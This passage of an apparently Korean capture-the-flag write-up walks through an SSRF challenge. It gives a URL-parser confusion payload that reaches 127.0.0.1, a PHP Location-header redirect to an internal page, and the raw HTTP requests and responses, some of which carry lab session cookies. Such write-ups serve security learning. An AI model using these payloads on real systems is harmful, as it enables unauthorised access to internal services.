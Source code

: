 ```php
```

정말 다양한 시도를 해보았지만 결국 성공한것은 2가지 방식이었다.

1. cURL 요청과 parse_url의 Host인식 부분의 차이를 우회하여 SSRF
2. cURL 요청의 Setting을 보면 `FOLLOWLOCATION`, 즉, Redirection을 한번 허용하는 것으로 PHP Response Header에 Location을 다음과 같이 코드 작성하여 Redirect 시키는 것이다.

```php
<?php header("Location: http://127.0.0.1/internal_e0134cd5a917.php"); ?>
```

나는 개인적으로 2번의 방법 보다는 1번의 방법을 선택했다. 

그 이유는 서버에 설정해서 요청 날리는 것이 귀찮아서… (서버 포트 열어주고 코딩하기 귀찮아서 하핳…)

- 참고로 아래와 같은 우회 방법은 [BlackHat](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) 발표에서 Orange Tsai님께서 발표하신바 있다.

```
[ Request ]
POST /index.phtml?fun_004ded7246=load HTTP/1.1
Host: 114.203.209.112:8000
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: PHPSESSID=km8242du1i5ctdu87piomkf744; USER=admin; X-TOKEN=9cf35b150a5bcdd1fac0804ddab73d4fb9208d8d40500978d9d902ed7e63f9c4; 
X-HTTP-Host-Override: 127.0.0.1

url=http://naver.com@127.0.0.1:80 @google.com/internal_e0134cd5a917.php

[ Response ]
HTTP/1.1 200 OK
...

<main role="main" class="container">
<h1 class="mt-5">FLAG ?</h1>
<p class="lead">[+] <strong>NEXT FLAG LOCATION:</strong> ./internal_1d607d2c193b.php </p>
</main>
```

요기서 멘붕이 온것이 끝이 아니라는 사실이었다. 그러나 별수 없이, 다음 링크를 들어가보면 다음과 같은 메시지가 출력된다.

![Untitled](/images/20220831/Untitled%206.png)

그리하여 POST요청을 만들어서 다음과 같이 요청을 날려보았다.

```
[ Request ]
POST /internal_1d607d2c193b.php HTTP/1.1
Host: 114.203.209.112:8000
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

[ Response ]
HTTP/1.0 401 Unauthorized
WWW-Authenticate: Basic realm="Private"
...

Header `Authorization: Basic is not set, Sorry :)!
```
